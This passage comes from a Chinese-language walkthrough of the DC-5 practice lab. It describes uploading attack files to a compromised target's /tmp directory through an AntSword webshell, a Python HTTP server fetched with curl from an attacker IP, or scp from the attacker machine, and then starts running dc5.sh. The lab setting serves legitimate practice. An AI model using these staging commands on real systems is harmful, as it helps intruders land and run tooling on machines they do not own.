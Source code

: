 <img src="https://img-blog.csdnimg.cn/257516c5577e4b5db00968023307c497.png" alt="在这里插入图片描述">

#### 7.上传文件到靶机

>  
 把三个文件上传至靶机的/tmp文件下，这里讲解三种思路 


##### 1、利用蚁剑上传

>  
 打开蚁剑，打开连接，进入文件系统，进入/tmp目录，右键选择文件上传就行了。 <img src="https://img-blog.csdnimg.cn/e1abb90e7a534a6b9e3696d6198db86e.png" alt="在这里插入图片描述"> 


##### 2、利用卡里启服务靶机访问上传

>  
 可以在kali里面相应文件目录下起一个服务，比如说python服务 


```
python -m http.server 80

```

>  
 然后靶机采用curl获取文件就行 


```
curl http://攻击机IP/文件名

```

>  
 这里我没有尝试，只提供一种思路，如果下载不下来可以尝试在服务端将文件打包 


##### 3、利用SCP从攻击机取文件

>  
 靶机shell中执行如下命令从攻击机取文件，需要注意的是，需要开放22端口 


```
scp -r root@192.168.233.130:/root/dc-5 /tmp/dc-5
scp -r root@攻击机IP:文件所在绝对路径 目的地绝对路径

```

#### 8.执行dc5.sh

>  
 在shell中切换到/tmp目录下（dc5.sh所在目录） 


<img src="https://img-blog.csdnimg.cn/af478e3859d3432599f84bcceba398b1.png" alt="在这里插入图片描述">

>  
 注意给dc5.sh加执行权限 
